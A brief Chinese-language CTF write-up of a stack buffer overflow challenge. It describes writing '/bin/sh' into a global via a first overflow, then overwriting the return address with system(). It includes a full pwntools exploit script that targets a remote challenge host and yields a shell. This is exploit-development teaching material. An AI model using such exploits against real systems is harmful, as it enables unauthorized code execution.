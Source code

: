 1. 发现溢出点A，n对s有限制，但可以通过A溢出覆盖到n

![](截图\15.3.png)

2. 没有后门/bin/sh，但有system函数，想到第一次溢出到n写入'/bin/sh'，第二次输出时再次溢出，返回地址覆盖成system地址，并且让system的参数为n的地址

**exp**

输入s到返回地址为0x34，"a"*4是因为每个函数在call时，堆栈的栈顶是返回地址，所以这里随便用4个"a"充当返回地址

```python
# coding=utf-8
from pwn import *
p = remote('182.254.217.142','10001')
elf = ELF('/root/桌面/cgpwna')
system_addr = elf.symbols['system']
bin_sh_addr = 0x804a0a8

payload = "a"*40+'/bin/sh'
p.sendlineafter("your choice:",'1')
p.sendlineafter("here:",payload)

payload2 = "a"*0x34+p32(system_addr)+"a"*4+p32(bin_sh_addr)
p.sendlineafter("please:",payload2)
p.interactive()

```

3. 执行结果

![](截图\15.4.png)